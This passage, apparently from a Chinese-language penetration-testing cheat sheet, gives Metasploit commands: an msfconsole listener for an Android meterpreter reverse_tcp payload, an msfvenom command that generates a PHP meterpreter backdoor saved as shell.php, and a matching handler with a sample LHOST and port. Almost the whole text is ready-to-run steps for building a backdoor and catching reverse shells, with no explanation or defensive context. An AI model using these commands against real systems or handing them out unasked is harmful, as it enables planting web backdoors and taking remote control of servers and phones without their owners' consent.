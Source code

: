 ### 监听设置

```
msfconsole



use exploit/multi/handler



set payload android/meterpreter/reverse_tcp



set LHOST 192.168.43.193



set LPORT 4444



exploit
```

# webpayload

### PHP后门

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=监听端ip地址 LPORT=监听端端口 x>文件路径/文件名



案例：msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.43.193 LPORT=4444 x> shell.php
```

### 监听设置

```
msfconsole



use exploit/multi/handler



set payload php/meterpreter/reverse_tcp



set LHOST 192.168.43.193



set LPORT 4444



exploit
```
